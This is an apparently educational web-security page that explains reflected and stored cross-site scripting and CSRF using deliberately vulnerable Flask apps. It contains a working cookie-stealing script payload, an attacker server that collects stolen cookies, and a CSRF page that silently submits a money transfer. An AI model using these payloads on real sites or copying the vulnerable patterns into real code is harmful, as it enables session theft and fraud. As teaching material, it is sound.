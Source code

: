 # HTTP Security

## Cross-site Scripting

The basic idea behind cross-site scripting is that attacker can inject JavaScript into a web page viewed by a victim.

### Reflected XSS

One way is the **reflected XSS attack**.

Consider the following insecure server:

```python
from flask import Flask, request, make_response, render_template_string

app = Flask(__name__)

@app.route('/set-cookie')
def set_cookie():
    response = make_response("<h2>Cookie Set!</h2><p>A cookie has been set.</p>")
    # Set a harmless cookie
    response.set_cookie('supersecret', 'information')
    return response

@app.route('/')
def home():
    user_input = request.args.get('input', 'No input provided')  # Get user input from query parameter
    # The user_input is directly rendered into the HTML template below, which is vulnerable to XSS
    response = make_response(render_template_string(f"""
    <h2>Reflected XSS Example</h2>
    <p>Your input was: {user_input}</p>
    <form method="get">
        <input type="text" name="input" placeholder="Enter something here..." />
        <input type="submit" />
    </form>
    """))
    return response

if __name__ == "__main__":
    app.run(port=5000)
```

Go to `http://localhost:5000/set-cookie` to set the cookie.

The problem here is that `input` is rendered directly in the page.

For example:

```
http://localhost:5000/?input=<script>alert('XSS')</script>
```

We could do more interesting things like stealing cookies:

```
<script>fetch(`http://localhost:5001/steal-cookie?cookie=${document.cookie}`)</script>
```

### Persistent XSS

One way is the **persistent (stored) XSS attack**.

Consider the following insecure server:

```python
from flask import Flask, request, make_response, render_template_string

app = Flask(__name__)

# Simulating a storage for comments
comments = []

@app.route('/set-cookie')
def set_cookie():
    response = make_response("<h2>Cookie Set!</h2><p>A cookie has been set.</p>")
    # Set a harmless cookie
    response.set_cookie('supersecret', 'information')
    return response


@app.route('/', methods=['GET', 'POST'])
def home():
    print(comments)

    if request.method == 'POST':
        user_comment = request.form['comment']
        comments.append(user_comment)  # Store the comment

    comments_display = '<br>'.join(comments)
    response = make_response(render_template_string(f"""
    <h2>Vulnerable Comment Section</h2>
    {comments_display}
    <form method="post">
        <textarea name="comment"></textarea>
        <input type="submit" />
    </form>
    <p>Visit <a href="/set-cookie">/set-cookie</a> to set a cookie.</p>
    """))
    return response

if __name__ == "__main__":
    app.run(port=5000)
```

The problem is in the way the comments page is created.
It doesn't sanitize the comments.

This means that if an attacker can submit an "executable comment" that comment will be executed.
Of course this would be JavaScript.

For example you could submit this comments:

```
<script>alert("Hi")</script>
```

If a victim navigates to this page, he would also see the alert.

More interesting would be stealing the cookies of the client:

```python
from flask import Flask, request, make_response

app = Flask(__name__)

@app.route('/steal-cookie', methods=['GET'])
def steal_cookie():
    stolen_cookie = request.args.get('cookie', '')
    print(f"Stolen cookie: {stolen_cookie}")

    response = make_response("Cookie stolen!", 200)
    response.headers['Access-Control-Allow-Origin'] = '*'
    return "Cookie stolen!", 200

if __name__ == "__main__":
    app.run(port=5001)
```

We can now submit this comment:

```
<script>fetch(`http://localhost:5001/steal-cookie?cookie=${document.cookie}`)</script>
```

If the victim loads the page now, the page will send a request to `localhost:5001/steal-cookie` together with the victims cookies.
Now the attacker has the victims cookies.

You should protect against this by sanitizing user input of course.
However, **Content Security Policy** allows you to add an additional layer of protection.

# CSRF

Example:

```python
from flask import Flask, request, render_template_string, make_response

app = Flask(__name__)

# Inline HTML Template for the form
HTML = """
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Bank Transfer</title>
</head>
<body>
    <h1>Transfer Money</h1>
    <form action="http://localhost:5000/transfer" method="POST">
        <input type="text" name="amount" placeholder="Amount" required>
        <input type="text" name="to_account" placeholder="To Account Number" required>
        <button type="submit">Transfer</button>
    </form>
</body>
</html>
"""

@app.route('/')
def index():
    return render_template_string(HTML)

@app.route('/set-cookie')
def set_cookie():
    response = make_response("<h2>Cookie Set!</h2><p>A cookie has been set.</p>")
    # Set a harmless cookie
    response.set_cookie('authcookie', 'authentication')
    return response

@app.route('/transfer', methods=['POST'])
def transfer():
    # Check if the correct authentication cookie is present
    if request.cookies.get('authcookie') == 'authentication':
        amount = request.form['amount']
        to_account = request.form['to_account']
        return f"Transferred ${amount} to account {to_account}."
    else:
        return "Authentication failed.", 403

if __name__ == '__main__':
    app.run(debug=True)
```

Attack:

```python
from flask import Flask, render_template_string

app = Flask(__name__)

# Inline HTML Template for the malicious page
MALICIOUS_HTML = """
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Harmless Survey</title>
</head>
<body>
    <h1>This Could Be a Harmless Survey</h1>
    <!-- This form will automatically post to the vulnerable Flask app -->
    <form id="fakeForm" action="http://localhost:5000/transfer" method="POST">
        <input type="hidden" name="amount" value="1000">
        <input type="hidden" name="to_account" value="9999-9999">
    </form>
    <script>
        // JavaScript to automatically send a POST request
        window.onload = function() {
            document.getElementById('fakeForm').submit();
        }
    </script>
</body>
</html>
"""

@app.route('/')
def malicious():
    # Render the malicious HTML directly
    return render_template_string(MALICIOUS_HTML)

if __name__ == '__main__':
    app.run(port=5001, debug=True)
```
